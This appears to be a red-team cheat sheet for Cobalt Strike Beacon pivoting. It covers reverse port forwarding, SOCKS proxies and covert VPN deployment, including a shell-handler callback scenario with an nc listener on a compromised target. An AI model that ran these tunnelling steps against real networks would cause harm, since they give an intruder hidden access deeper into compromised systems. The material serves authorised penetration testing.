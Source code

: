 # Cobalt Strike

## 01 - Rportfwd (Reverse Port Forwarding)

### 1.1 - Help Menu

To bind ports for the server side.

```
beacon> help rportfwd
Use: rportfwd [bind port] [forward host] [forward port]
     rportfwd stop [bind port]

Binds the specified port on the target host. When a connection comes in,
Cobalt Strike will make a connection to the forwarded host/port and use Beacon
to relay traffic between the two connections.
```

To bind ports for the operator side.

```
beacon> help rportfwd_local
Use: rportfwd_local [bind port] [forward host] [forward port]
     rportfwd_local stop [bind port]

Binds the specified port on the target host. When a connection comes in,
Cobalt Strike will make a connection to the forwarded host/port, via your
Cobalt Strike client, and use Beacon to relay traffic between the two connections.
```

### 1.2 - Usage

#### 1.2.1 - Syntax

```
beacon> rportfwd <bind_port> <forward_host> <forward_port>

beacon> rportfwd stop <bind_port>
```

### 1.3 - Scenarios

#### 1.3.1 - Shell Handler Reverse Callback Session

```
beacon> rportfwd_local add -b 0.0.0.0:5986 -r <compromised_target_IP>:5986

beacon> rportfwd_local 5986 <compromised_target_IP> 5986

$ nc -lnvp 5986
```

## 02 - SOCKS Proxy

### 2.1 - Help Menu

```
beacon> help socks
Use: socks [stop]
     socks [port]
     socks [port] [socks4]
     socks [port] [socks5]
     socks [port] [socks5] [enableNoAuth|disableNoAuth] [user] [password]
     socks [port] [socks5] [enableNoAuth|disableNoAuth] [user] [password] [enableLogging|disableLogging]

Starts a SOCKS4a (default) or SOCKS5 server on the specified port.
This server will relay connections through this Beacon.

SOCKS5 servers can be configured with NoAuth authentication (default),
User/Password authentication, and some additional logging.

SOCKS5 Servers currently do not support GSSAPI authentication,
UDP Association, and IPV6.

Use socks stop to stop the SOCKS servers and terminate existing connections.

Traffic will not relay while Beacon is asleep. Change the sleep time with the
sleep command to reduce latency.
```

### 2.2 - Usage

Start SOCKS4A Proxy server.

```
beacon> socks <PORT> socks4
```

Start SOCKS5 Proxy server with or without authentication. You can optionally enable logging when tunneling.

```
beacon> socks <PORT> socks5 <enableNoAuth | disableNoAuth> [username] [password] [enableLogging | disableLogging]
```

Refer to [[Proxychains]]

## 03 - Convert VPN Tunnel

> [!NOTE] Elevated Privileges is required.
> You must have elevated privileges on the windows target.

### 3.1 - Help Menu

```
beacon> help covertvpn
Use: covertvpn [interface] [ip address]

Deploy a Covert VPN to the target's system. You must have administrator
privileges for the client to work. 

Setup an [interface] through Cobalt Strike -> VPN Interfaces. The 
[ip address] is the IP address of the target interface you want to deploy
the VPN client to.
```

### 3.2 - Usage

```
beacon> covertvpn phear0 <new_IPv4_address>

userware@hackware-os:~$ sudo ip address add <new_IPv4_address>/24 dev phear0
```
